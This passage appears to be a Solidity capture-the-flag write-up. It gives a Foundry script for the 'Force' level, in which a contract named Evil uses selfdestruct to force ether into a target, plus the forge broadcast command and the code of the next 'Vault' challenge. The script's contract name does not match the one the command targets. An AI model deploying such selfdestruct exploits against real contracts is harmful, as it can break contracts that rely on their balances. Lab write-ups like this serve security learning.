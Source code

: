### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Force.sol";

contract Evil {
    receive() external payable {}

    function attack(address payable _target) public {
        selfdestruct(_target);
    }
}

contract TokenSolution is Script {
    Force public forceInstance = Force(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Evil evil = new Evil();
        (bool worked,) = address(evil).call{value: 0.0001 ether}("");
        require(worked, "Transfer failed");
        evil.attack(payable(address(forceInstance)));
        vm.stopBroadcast();
    }
}
```

### POC

```bash
forge script script/ForceSolution.s.sol --rpc-url $SEPOLIA_URL --tc ForceSolution --broadcast
```

---

## Vault

### Challenge Code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
